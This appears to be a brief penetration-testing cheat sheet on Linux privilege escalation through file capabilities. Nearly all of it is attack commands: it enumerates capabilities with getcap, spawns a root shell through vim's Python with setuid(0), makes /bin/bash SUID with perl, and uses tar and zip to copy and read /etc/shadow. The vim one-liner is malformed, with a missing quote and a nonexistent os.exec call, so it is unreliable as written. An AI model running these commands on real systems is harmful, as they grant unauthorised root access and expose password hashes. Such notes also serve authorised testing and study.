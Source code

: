 # Capabilities

## Example

### 

    getcap -r / 2>/dev/null

## True Positive: cap_setuid+ep, cap_fowner+ep (This enables to bypass permission checks on operations that normally require the filesystem UID of the process to match the UID of the file)

## Example:

### 1) cap_setuid+ep

    ./vim -c ':py3 import os; os.setuid(0); os.exec("/bin/sh, "sh", "-c", "reset; exec sh")' 

### 2) cap_fowner+ep

    ./perl -e 'chmod 04777, "/bin/bash";' 

### 3) cap_dac_read_search=ep

Tar

    tar -cvf shadow.tar /etc/shadow
    tar -xvf shadow.tar
    cat /etc/shadow
    
Zip

    /path/to/zip /tmp/shadow.zip /etc/shadow
    #/path/to/ is the directory of the zip file with the added capability.
    #Next, we extract that archive: 
    unzip /tmp/shadow.zip -d /tmp
    #Then, we can simply read the file: 
    cat /tmp/etc/shadow

